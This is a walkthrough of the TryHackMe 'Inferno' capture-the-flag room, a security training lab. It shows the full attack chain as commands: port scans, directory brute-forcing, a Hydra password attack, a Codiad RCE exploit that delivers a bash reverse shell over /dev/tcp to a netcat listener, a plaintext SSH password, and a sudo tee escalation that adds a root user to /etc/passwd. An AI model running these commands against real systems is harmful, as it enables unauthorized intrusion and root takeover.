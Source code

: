 # Inferno

**Room Link:** [https://tryhackme.com/r/room/inferno](https://tryhackme.com/r/room/inferno)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **Hydra**

Since we have no information at this point we just try admin as the username

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-get "/inferno/" -V
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



After some digging we can see this is a codiad ide which has a RCE exploit

**Kali #1**

```
echo 'bash -c "bash -i >/dev/tcp/10.10.183.11/4445 0>&1 2>&1"' | nc -lnvp 4444
```

**Kali #2**

```
nc -nlvp 4445
```

**Kali #3**

```
searchsploit codiad
searchsploit -m multiple/webapps/49705.py
python3 49705.py http://admin:dante1@$VICTIM/inferno/ admin dante1 $KALI 4444 linux
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Autocomplete

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement

**Victim**

```
cd /home/dante/Downloads
ls -lah
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **TCP/22 - SSH**

**Kali**

```
ssh dante@$VICTIM
Password: V1rg1l10h3lpm3
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Exploit:** [https://gtfobins.github.io/gtfobins/tee/](https://gtfobins.github.io/gtfobins/tee/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
LFILE=/etc/passwd
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' | sudo tee -a "$LFILE"

su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

